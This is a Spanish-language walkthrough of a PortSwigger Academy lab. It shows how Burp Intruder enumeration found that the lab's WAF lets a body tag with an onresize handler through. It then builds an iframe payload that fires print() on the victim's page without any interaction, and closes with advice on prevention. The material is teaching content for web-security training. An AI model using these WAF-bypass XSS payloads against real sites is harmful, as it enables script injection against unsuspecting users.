









# PortSwigger Academy - Lab 28 Cross-site scripting

# Reflected XSS into HTML context with most tags and attributes blocked

URL del laboratorio:

```text
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 1. Descripción del laboratorio traducida al español

## Título original

```text
Reflected XSS into HTML context with most tags and attributes blocked
```

## Traducción

```text
XSS reflejado en contexto HTML con la mayoría de etiquetas y atributos bloqueados
```

## Descripción traducida

Este laboratorio contiene una vulnerabilidad de **XSS reflejado** en la funcionalidad de búsqueda, pero utiliza un **firewall de aplicaciones web** o **WAF** para protegerse contra los vectores comunes de XSS.

Para resolver el laboratorio, realiza un ataque de cross-site scripting que evada el WAF y ejecute la función:

```javascript
print()
```

## Nota importante del laboratorio

La solución no debe requerir interacción del usuario.

Es decir:

```text
No vale ejecutar print() manualmente en tu propio navegador.
No vale depender de que el usuario pase el ratón.
No vale depender de que el usuario haga clic.
No vale depender de que el usuario redimensione manualmente la ventana.
```

La ejecución tiene que producirse automáticamente cuando la víctima visite el exploit.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 2. Objetivo principal

El objetivo es conseguir un XSS reflejado que ejecute:

```javascript
print()
```

Pero hay una dificultad:

```text
La mayoría de etiquetas HTML y atributos/eventos están bloqueados por el WAF.
```

Por tanto, el objetivo real no es simplemente meter un payload típico, sino:

1. Confirmar que existe una reflexión en el parámetro `search`.
2. Probar un payload XSS común y ver que el WAF lo bloquea.
3. Enumerar qué etiquetas HTML permite el WAF.
4. Enumerar qué eventos o atributos permite el WAF sobre una etiqueta permitida.
5. Encontrar una combinación válida de etiqueta + evento.
6. Conseguir que esa combinación ejecute `print()` sin interacción del usuario.
7. Usar el exploit server para enviar el payload a la víctima.
8. Resolver el laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 3. Idea general del laboratorio

Este laboratorio es importante porque aquí ya no basta con saber XSS básico.

En laboratorios anteriores, una carga como esta podía funcionar:

```html
<script>alert(1)</script>
```

o esta:

```html

```

Pero aquí el WAF bloquea vectores comunes.

Entonces la metodología cambia.

No atacamos directamente.

Primero enumeramos.

La idea es:

```text
Si el WAF bloquea lo típico, tengo que descubrir qué NO bloquea.
```

Este laboratorio consiste en encontrar el camino que el filtro no ve.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 4. Teoría: qué es un WAF en este contexto

Un WAF, o Web Application Firewall, es un componente que inspecciona las peticiones antes de que lleguen a la aplicación o antes de que la aplicación las procese completamente.

En este caso, el WAF detecta patrones típicos de XSS.

Por ejemplo, bloquea cosas como:

```html
<script>

onerror
onload
```

o combinaciones conocidas como:

```html

```

Cuando detecta algo que considera peligroso, responde con un error.

En este lab vemos muchas respuestas:

```text
HTTP 400
```

Eso nos sirve como señal.

Si una etiqueta o evento da `400`, probablemente está bloqueado.

Si da `200`, probablemente pasa el filtro.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 5. Concepto clave: enumeración de superficie permitida

Cuando hay un filtro, no se debe intentar un único payload y rendirse.

Hay que descubrir qué permite el filtro.

En este caso enumeramos dos cosas:

```text
1. Tags HTML permitidas
2. Event handlers permitidos
```

El flujo es:

```text
Probar muchas etiquetas -> quedarnos con las que devuelven 200
Probar muchos eventos -> quedarnos con los que devuelven 200
Combinar etiqueta permitida + evento permitido
```

Aquí la combinación útil será:

```html
<body onresize=print()>
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 6. Página inicial del laboratorio

Le damos a empezar laboratorio y se abre la siguiente página:

```text
https://0a3100d503acfe8c8321f07b00d00015.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Página inicial del laboratorio. Se observa el blog con el buscador y el título del laboratorio: `Reflected XSS into HTML context with most tags and attributes blocked`. También aparece el botón `Go to exploit server`, que será importante al final.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 7. Configuración inicial con Burp Suite

Una vez dentro:

1. Abrimos Burp Suite Professional.
2. Activamos FoxyProxy en el navegador.
3. Navegamos por la página para que las peticiones aparezcan en `HTTP history`.
4. Usamos la funcionalidad de búsqueda del blog.
5. Capturamos la petición de búsqueda.
6. La enviamos a Burp Intruder para enumerar etiquetas y eventos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 8. Prueba inicial con una cadena normal

Primero ponemos una cadena normal en el buscador:

```text
testing
```

El objetivo de esta prueba no es explotar nada.

El objetivo es ver si el valor se refleja.

Al inspeccionar la respuesta, vemos que aparece en el HTML aproximadamente así:

```html
<h1>1 search results for 'testing'</h1>
```

Esto confirma que el parámetro de búsqueda se refleja en contexto HTML.

Por tanto, el parámetro vulnerable es:

```text
search
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 9. Prueba con un payload XSS típico

Ahora probamos con un payload clásico:

```html
<script>alert(1)</script>
```

Resultado:

```text
Tag is not allowed
```

Esto indica que la etiqueta `<script>` está bloqueada.

Probamos otro payload típico:

```html

```

Resultado:

```text
También es bloqueado.
```

Esto confirma que no estamos ante un XSS sin filtros.

Hay un WAF filtrando etiquetas y/o atributos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 10. Petición capturada en Burp

Capturamos una petición de búsqueda con Burp Suite.

La petición que tenemos es:

```http
GET /?search=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E HTTP/2
Host: 0a3100d503acfe8c8321f07b00d00015.web-security-academy.net
Cookie: session=3qqUJvt2VnedaaBOsjB4SoIeSSqVwci3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3100d503acfe8c8321f07b00d00015.web-security-academy.net/?search=testing
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Esta petición la enviamos a Intruder.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 11. Fase 1: enumerar etiquetas HTML permitidas

El primer objetivo es saber qué etiquetas HTML permite el WAF.

Para eso modificamos el parámetro `search` para que tenga esta forma:

```http
GET /?search=<§§> HTTP/2
```

La idea es que Burp Intruder sustituya la posición `§§` por muchas etiquetas HTML.

Ejemplos:

```html
<a>
<body>

<script>
<svg>
<xss>
```

La imagen 2 muestra la posición donde se coloca el payload dentro de los corchetes angulares.



**Referencia a la imagen 2:** Posición de payload en Burp Intruder para enumerar etiquetas. El valor queda como `<§§>` en el parámetro `search`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 12. Uso del XSS Cheat Sheet de PortSwigger

PortSwigger tiene un XSS cheat sheet que permite copiar listas de etiquetas y eventos.

Usamos la sección de tags.

La imagen 3 muestra el listado de etiquetas del XSS cheat sheet.



**Referencia a la imagen 3:** XSS cheat sheet de PortSwigger. Se observa el apartado con tags HTML y el botón para copiar etiquetas al portapapeles.

Copiamos las tags con:

```text
Copy tags to clipboard
```

Luego vamos a Burp Intruder, pestaña `Payloads`, y pegamos la lista en el cuadro de payloads.

La imagen 4 muestra la configuración de payloads en Burp.



**Referencia a la imagen 4:** Configuración de payloads en Burp Intruder. Se usa `Simple list` para pegar la lista de etiquetas copiadas desde el cheat sheet.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 13. Resultado de la enumeración de tags

Lanzamos el ataque con `Start attack`.

Al terminar, ordenamos por la columna:

```text
Status code
```

La mayoría de etiquetas devuelven:

```text
400
```

Eso significa que están bloqueadas.

Pero algunas devuelven:

```text
200
```

En nuestro caso, aparecen permitidas:

```text
body
xss
cadena vacía
```

La imagen 5 muestra este resultado.



**Referencia a la imagen 5:** Resultado de Intruder tras enumerar tags. Se observan respuestas `200` para algunas etiquetas, especialmente `body`, mientras que la mayoría devuelven `400`.

La conclusión importante es:

```text
La etiqueta body está permitida por el WAF.
```

Por tanto, vamos a construir el payload usando:

```html
<body>
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 14. Por qué nos interesa `body`

La etiqueta `body` representa el cuerpo de la página.

Normalmente ya existe un `<body>` en el HTML, pero si el filtro permite inyectar otra etiqueta `body`, podemos intentar asociarle un evento.

La idea será:

```html
<body evento=payload>
```

Pero todavía no sabemos qué eventos permite el WAF.

Por eso pasamos a la segunda fase.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 15. Fase 2: enumerar eventos permitidos sobre body

Ahora queremos saber qué atributos/eventos permite el WAF sobre la etiqueta `body`.

Cambiamos la petición para que quede así:

```http
GET /?search=<body+§§=1> HTTP/2
```

o de forma conceptual:

```html
<body EVENTO=1>
```

El `+` se usa para representar el espacio en URL encoding.

Queremos probar eventos como:

```text
onload
onclick
onerror
onresize
onbeforeinput
onanimationstart
...
```

La imagen 6 muestra la nueva posición de payload.


**Referencia a la imagen 6:** Nueva posición de payload en Burp Intruder. Ahora se mantiene la etiqueta `body` fija y se fuerza bruta el nombre del evento antes del `=1`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 16. Copiamos los eventos desde el XSS Cheat Sheet

Volvemos al XSS cheat sheet de PortSwigger.

Ahora copiamos eventos con:

```text
Copy events to clipboard
```

Luego en Burp Intruder:

1. Vamos a `Payloads`.
2. Limpiamos los payloads anteriores.
3. Pegamos la lista de eventos.
4. Lanzamos el ataque.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 17. Resultado de la enumeración de eventos

Lanzamos el ataque y ordenamos resultados.

Vemos que muchos eventos devuelven `200`.

La imagen 7 muestra una parte del resultado.



**Referencia a la imagen 7:** Resultado de la fuerza bruta de eventos. Se observan múltiples eventos con status `200`, entre ellos eventos de tipo `onresize`.

Este resultado significa que el WAF no bloquea todos los event handlers.

El evento que nos interesa será:

```text
onresize
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 18. Por qué buscamos eventos sin interacción de usuario

El laboratorio indica expresamente que la solución no debe requerir interacción del usuario.

Eso significa que eventos como:

```text
onclick
onmouseover
onchange
```

no son ideales si requieren que la víctima haga algo.

Necesitamos un evento que podamos disparar automáticamente.

El evento elegido es:

```text
onresize
```

El XSS cheat sheet permite buscar eventos que no requieren interacción del usuario.

La imagen 8 muestra el evento `onresize` en el cheat sheet.



**Referencia a la imagen 8:** XSS cheat sheet filtrando por eventos. Se observa `onresize` asociado a la etiqueta `body`, con un ejemplo de payload basado en `print()`.

El payload que nos interesa conceptualmente es:

```html
<body onresize="print()">
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 19. Problema: onresize necesita un cambio de tamaño

`onresize` se ejecuta cuando cambia el tamaño del viewport o del contexto donde se renderiza la página.

Si probamos simplemente:

```html
<body onresize=print()>
```

puede no pasar nada en nuestro navegador.

¿Por qué?

Porque el evento `resize` no se dispara solo por existir el atributo.

Necesita que ocurra un cambio de tamaño.

Y el laboratorio no permite depender de interacción manual.

Por tanto, necesitamos forzar el resize automáticamente.

Aquí entra el exploit server y el iframe.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 20. Qué es el exploit server

En el laboratorio aparece el botón:

```text
Go to exploit server
```

Al pulsarlo, se abre el servidor de exploits de PortSwigger.

La imagen 9 muestra esta pantalla.



**Referencia a la imagen 9:** Exploit server de PortSwigger. Permite crear una respuesta HTML controlada por nosotros y enviarla a la víctima con `Deliver exploit to victim`.

El exploit server es una web controlada por nosotros dentro del entorno del laboratorio.

Sirve para guardar un HTML malicioso y enviárselo a la víctima.

En este caso, necesitamos que la víctima cargue una página que a su vez cargue el laboratorio vulnerable con nuestro payload.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 21. Qué es un iframe

Un `<iframe>` es una etiqueta HTML que permite cargar una página web dentro de otra página web.

Ejemplo simple:

```html
<iframe src="https://example.com"></iframe>
```

Esto significa:

```text
Carga example.com dentro de esta página.
```

En nuestro caso, el iframe cargará la web vulnerable del lab con el parámetro `search` malicioso.

El iframe no es la vulnerabilidad.

El iframe es el vehículo para activar el payload automáticamente.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 22. Payload que vamos a cargar dentro del iframe

Queremos que la web vulnerable reciba en `search` este payload:

```html
"><body onresize=print()>
```

¿Por qué empieza por `">`?

Porque nos sirve para cerrar el contexto HTML donde se refleja la búsqueda y después insertar una nueva etiqueta:

```html
<body onresize=print()>
```

Payload sin codificar:

```html
"><body onresize=print()>
```

Payload URL encoded:

```text
%22%3E%3Cbody%20onresize%3Dprint()%3E
```

En tu texto también aparece esta variante con espacios alrededor del `=`:

```text
%22%3E%3Cbody%20onresize%20%3Dprint()%3E%22
```

Decodificado:

```html
"><body onresize =print()>"
```

La idea es la misma:

```text
Romper contexto + inyectar body con onresize=print()
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 23. Payload completo del exploit server

El payload final que se guarda en el body del exploit server es:

```html
<iframe src="https://0a64008c047bc79680fdfdc200b00082.web-security-academy.net/?search=%22%3E%3Cbody%20onresize%20%3Dprint()%3E%22" onload=this.style.width='10px'>
```

Otra forma equivalente y más parecida al enunciado oficial sería:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

La diferencia entre `10px` y `100px` no es lo importante.

Lo importante es que el iframe cambie de tamaño tras cargar.

Eso dispara `resize`.

Y `resize` dispara:

```javascript
print()
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 24. Explicación del payload completo

Payload:

```html
<iframe src="https://LAB.web-security-academy.net/?search=%22%3E%3Cbody%20onresize%20%3Dprint()%3E%22" onload=this.style.width='10px'>
```

Vamos por partes.

## `<iframe ...>`

Crea una página dentro de otra página.

La víctima visita el exploit server.

Dentro del exploit server se carga el lab vulnerable.

## `src="https://LAB.web-security-academy.net/?search=..."`

Indica qué página se carga dentro del iframe.

En este caso, cargamos la web vulnerable con un payload en el parámetro `search`.

## `%22%3E`

Esto es:

```html
">
```

Sirve para cerrar el contexto anterior.

## `%3Cbody%20onresize%20%3Dprint()%3E`

Esto es:

```html
<body onresize =print()>
```

Sirve para inyectar una etiqueta `body` con el evento permitido `onresize`.

## `onload=this.style.width='10px'`

Esto se ejecuta cuando el iframe termina de cargar.

Cambia el ancho del iframe a `10px`.

Ese cambio de tamaño provoca un resize.

Ese resize activa:

```html
<body onresize=print()>
```

Y entonces se ejecuta:

```javascript
print()
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 25. Flujo completo del ataque

El flujo real es este:

```text
Víctima abre exploit server
        ↓
Exploit server carga un iframe
        ↓
El iframe abre la web vulnerable con ?search=PAYLOAD
        ↓
La web vulnerable refleja el payload
        ↓
Se crea <body onresize=print()>
        ↓
El iframe termina de cargar
        ↓
El onload del iframe cambia el ancho
        ↓
Se dispara el evento resize
        ↓
El onresize ejecuta print()
        ↓
El laboratorio se resuelve
```

Esta es la clave:

```text
El body onresize=print() es el XSS.
El iframe onload=this.style.width='10px' es el truco para activarlo automáticamente.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 26. Por qué no sirve solo poner `<body onresize=print()>`

Si metemos solo:

```html
<body onresize=print()>
```

el evento queda definido, pero no se dispara necesariamente.

Necesita un resize.

Si el usuario redimensionara la ventana manualmente, podría ejecutarse.

Pero el enunciado dice que no debe requerir interacción del usuario.

Por eso usamos el iframe.

El iframe permite provocar el cambio de tamaño automáticamente con:

```html
onload=this.style.width='10px'
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 27. Por qué `print()` resuelve el lab

Este laboratorio no pide `alert(1)`.

Pide ejecutar:

```javascript
print()
```

La función `print()` abre el diálogo de impresión del navegador.

El laboratorio detecta esa ejecución como la prueba de que el XSS se ha ejecutado correctamente.

Al usar el iframe, la ejecución se produce automáticamente para la víctima.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 28. Verificación con View Exploit

Después de guardar el exploit, podemos probarlo con:

```text
View exploit
```

Al verlo, ocurre lo siguiente:

1. La página se carga dentro del iframe.
2. El iframe aparece con un tamaño inicial.
3. Se ejecuta el `onload`.
4. El iframe cambia de tamaño.
5. Ese cambio dispara `onresize`.
6. Se ejecuta `print()`.
7. Aparece la ventana de impresión.

La imagen 10 muestra el resultado.



**Referencia a la imagen 10:** Vista del exploit ejecutándose. Se observa el diálogo de impresión, lo que confirma que `print()` se ha ejecutado automáticamente.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 29. Explicación visual de lo que se observa en la imagen 10

En la imagen 10 se ve la ventana de impresión.

Eso no aparece porque el usuario haya pulsado imprimir.

Aparece porque el exploit ha ejecutado:

```javascript
print()
```

El comportamiento visual esperado es:

```text
iframe carga grande
iframe se redimensiona
se dispara resize
se ejecuta print()
aparece el diálogo de impresión
```

El cambio de tamaño no es estética.

Es el disparador del ataque.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 30. Por qué el lab queda resuelto

El lab queda resuelto porque:

1. Encontramos una etiqueta permitida: `body`.
2. Encontramos un evento permitido: `onresize`.
3. Creamos un payload válido:

```html
<body onresize=print()>
```

4. Usamos un iframe para forzar el resize sin interacción.
5. Ejecutamos `print()` automáticamente en el navegador de la víctima.
6. Entregamos el exploit con el exploit server.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 31. Resumen de las fases

## Fase 1

Probar payload típico:

```html

```

Resultado:

```text
Bloqueado por WAF
```

## Fase 2

Enumerar tags:

```html
<§§>
```

Resultado:

```text
body permitido
```

## Fase 3

Enumerar eventos:

```html
<body §=1>
```

Resultado:

```text
onresize permitido
```

## Fase 4

Construir payload:

```html
<body onresize=print()>
```

## Fase 5

Automatizar ejecución con iframe:

```html
<iframe src="https://LAB/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

## Fase 6

Enviar a la víctima:

```text
Deliver exploit to victim
```

Resultado:

```text
Laboratorio resuelto
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 32. Tabla de conceptos clave

| Elemento | Función |
|---|---|
| WAF | Bloquea tags y eventos comunes |
| Burp Intruder | Permite enumerar tags/eventos |
| XSS cheat sheet | Diccionario de tags y eventos |
| `body` | Tag permitida |
| `onresize` | Evento permitido |
| `print()` | Función requerida por el lab |
| `iframe` | Vehículo para cargar la web vulnerable |
| `onload` del iframe | Fuerza el cambio de tamaño |
| `this.style.width='10px'` | Provoca el resize automático |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 33. Frases clave para memorizar

```text
Cuando hay filtros, no ataques directo: enumera qué dejan pasar.
```

```text
XSS moderno no es meter <script>; es entender el contexto y el filtro.
```

```text
El iframe no es la vulnerabilidad; es el vehículo para activar el payload.
```

```text
El cambio de tamaño no es visual; es el disparador del ataque.
```

```text
El body onresize=print() es el XSS; el iframe onload es la automatización.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 34. Prevención correcta

Para evitar este tipo de vulnerabilidad, la aplicación debería:

1. Aplicar output encoding contextual.
2. No reflejar input del usuario como HTML.
3. Usar allowlists estrictas y seguras, no filtros parciales.
4. Evitar depender solo de WAF.
5. Aplicar CSP estricta.
6. Sanitizar HTML con librerías robustas si se permite contenido HTML.
7. Bloquear event handlers peligrosos.
8. No permitir que el usuario controle estructuras HTML ejecutables.

El WAF no es una solución completa.

Este laboratorio demuestra que aunque muchas etiquetas y atributos estén bloqueados, basta encontrar una combinación permitida para explotar el XSS.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 35. Conclusión

Este laboratorio demuestra una técnica realista de evasión de WAF en XSS reflejado.

Primero intentamos payloads comunes y fueron bloqueados.

Después usamos Burp Intruder y el XSS cheat sheet para enumerar qué etiquetas y eventos estaban permitidos.

Descubrimos:

```text
Tag permitida: body
Evento permitido: onresize
```

Con eso construimos:

```html
<body onresize=print()>
```

Pero como `onresize` necesita un cambio de tamaño y el laboratorio no permite interacción de usuario, usamos un iframe para forzar el resize automáticamente:

```html
<iframe src="https://LAB/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Al cargarse el iframe, el `onload` cambia su tamaño, dispara `onresize`, se ejecuta `print()` y el laboratorio queda resuelto.

**Laboratorio resuelto.**
